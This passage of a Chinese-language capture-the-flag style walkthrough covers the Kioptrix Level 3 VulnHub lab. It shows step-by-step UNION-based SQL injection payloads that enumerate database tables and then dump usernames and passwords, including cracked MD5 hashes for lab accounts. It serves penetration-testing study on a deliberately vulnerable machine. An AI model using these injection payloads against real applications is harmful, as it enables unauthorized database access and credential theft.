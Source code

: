 获取到信息，数据库`gallery`，数据库版本是`5.0`之后，具有`information_schema`这个表,并且确定`concat`是可用的

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\12.jpg)

那么尝试从`information_schema`中查询`gallery`中的一些数据，因为一般可能当前使用的数据库中有信息，当然肯定还是其他数据库也是有信息的，不过这里先测试这个

```
?id=-1 union select 1,concat(table_name),3,4,5,6 from information_schema.tables where table_schema=database()--+
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\13.jpg)

发现这个表，那么就测试这个表中的元组

```
?id=-1 union select 1,concat(column_name),3,4,5,6 from information_schema.columns where table_name='gallarific_users'--+
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\14.jpg)

这两个就很是吸引人了，直接就尝试获取

```shell
?id=-1 union select 1,concat(username,'|',password),3,4,5,6 from gallarific_users--+
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\15.jpg)

用户名`admin`和密码`n0t7t1k4`

结合前面`login`目录，推测应该可以登录，访问`login`，并进行测试，不过并非，那么可能漏了数据，返回继续收集

在前面某处有一个表名是`dev_accounts`，不过当时没关注，其中`accounts`是账户的意思，结合`dev`，推测是靶机内的账户

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\16.jpg)



```shell
?id=-1 union select 1,concat(column_name),3,4,5,6 from information_schema.columns where table_name='dev_accounts'--+
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\17.jpg)


```shell
?id=-1 union select 1,concat(username,'|',password),3,4,5,6 from dev_accounts--+
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\18.jpg)

| 用户名     | 密码(md5加密)                    | 解密密码 |
| ---------- | -------------------------------- | -------- |
| dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | Mast3r   |
| loneferret | 5badcaf789d3d1d09794d8f021f40f0e | starwars |

